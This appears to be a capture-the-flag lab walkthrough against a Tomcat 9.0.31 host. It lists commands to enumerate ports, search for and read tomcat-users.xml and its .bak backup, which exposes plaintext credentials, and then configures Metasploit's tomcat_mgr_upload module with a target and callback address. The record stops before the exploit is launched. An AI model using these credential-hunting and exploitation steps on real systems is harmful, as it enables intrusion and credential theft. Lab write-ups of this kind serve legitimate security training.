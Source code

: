     ss -ltnp
    # check services and ports
    # we have a service on port 8080

    curl localhost:8080
    # we have tomcat running on this port
    
    # tomcat enumeration
    curl localhost:8080/docs
    # this is running Apache Tomcat/9.0.31

    # from tomcat hacktricks enumeration
    # check for tomcat creds file 'tomcat-users.xml'
    find / -type f -name *tomcat-users* 2>/dev/null

    cat /etc/tomcat9/tomcat-users.xml
    # permission denied

    # we have a .bak file as well
    cat /etc/tomcat9/tomcat-users.xml.bak
    # this includes the creds 'tomcatadm:T0mc@t_s3cret_p@ss!'

    # we can access the web app manager at /manager using these creds

    # exploit using metasploit
    # on attacker machine
    msfconsole -q
    use exploit/multi/http/tomcat_mgr_upload
    options
    set HttpPassword T0mc@t_s3cret_p@ss!
    set HttpUsername tomcatadm
    set RHOSTS 10.129.153.118
    set RPORT 8080
    set LHOST 10.10.16.44
